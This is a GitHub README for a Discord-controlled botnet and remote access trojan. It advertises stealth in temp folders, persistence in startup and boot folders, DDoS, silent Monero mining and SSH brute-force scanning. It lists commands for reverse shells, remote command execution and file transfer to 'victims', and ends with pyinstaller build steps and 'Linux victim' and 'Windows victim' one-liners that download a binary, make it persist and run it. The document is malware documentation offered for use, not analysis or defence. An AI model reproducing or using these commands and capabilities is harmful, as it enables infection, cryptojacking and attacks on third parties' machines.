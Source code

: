 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Features
* Hidden (Works in /tmp, %temp%)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script
* Mining uses "xmrig"

# Soon
* Web automation to provide bots
* Discord botot status Examle= bots: 100
* !webcampic
* ?

# Bot Commands

* !sessions                              (List open sessions)
* !check                                 (Check miner, ddos, zmap, nmap status)
* !updatelinux < LINK >                  (Update RAT on linux platforms) (input Client link)
* !updatewin < LINK >                    (Update RAT on windows platforms) (input Client.exe link)
* !ddos < IP >                           (Start DDoS Attack)
* !stopddos                              (Stop DDoS)
* !miner < WALLET >                      (Start slient XMR Crypto Miner CPU + AMD/INTEL GPU's)
* !stopminer                             (Stop miner)
* !zmap                                  (ZMap subnet scan) (Bruteforce ip addresses: https://github.com/bntr00t/sshb)

# Self Commands

* !info.< HOSTNAME >@< IP >                      (Send IP Information)
* !shell.< HOSTNAME >@< IP > < CMD >             (Run command)
* !revshell.< HOSTNAME >@< IP > < IP > < PORT >  (Reverse shell)
* !download.< HOSTNAME >@< IP > < URL > < NAME > (Download file to victim)
* !upload.< HOSTNAME >@< IP > < PATH >           (Upload file to bot)
* !nmap.< HOSTNAME >@< IP >                      (Nmap vuln scan)

# Linux build
pyinstaller --onefile Client.py
- After build complete look at this path : dist\Client

# Windows build
pyinstaller --onefile --noconsole Client.py
- After build complete look at this path: dist\Client.exe

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & if exist Client.exe del Client.exe & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe & Client.exe
